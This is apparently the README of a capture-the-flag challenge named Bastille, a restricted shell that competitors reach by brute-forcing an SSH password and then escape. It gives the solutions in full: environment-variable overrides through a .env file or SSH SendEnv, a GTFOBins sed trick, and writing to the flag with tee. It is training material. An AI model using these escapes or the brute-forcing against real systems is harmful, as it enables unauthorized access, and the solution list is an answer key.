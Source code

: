 # Bastille

Bastille is a retro style shell escape vulnerability. The user is dropped into a restricted shell and must escape to get access to features that they wouldnt normally have.


For BSIDEs, Bastille is run behind an SSH server that is using a top password from rockyou. The competitors must brute force their way onto the server and then escape the shell to plant the flag.


## Running
To run the server in the competition environment, use the following docker-compose file
```yaml
version: '3'
services:
  bastile:
    build: .
    user: user
    restart: always
```

## Escape Techniques

1. Env override: If a binary is set in an environment variable, then it can be executed
    1. Set Env with `.env` file. Respawn the shell and then execute the variable
    ```
    [bastille] cwd > tee .env
    VAR=/bin/bash
    [bastille] cwd > $SHELL
    [bastille] cwd > $VAR
    ```

    2. Set the env with SSH
    ```
    LANG=/bin/bash ssh -o SendEnv=LANG user@target
    [bastille] cwd > $VAR
    ```

2. GTFO Bins with sed/awk
  ```
  [bastille] cwd > sed e
  ```

3. Write to teh flag without escaping
  ```
  [bastille] cwd > tee a a a a a a a a a a a a a a a a a a a a /flags/flag.txt
  <YOUR FLAG HERE> 
  ```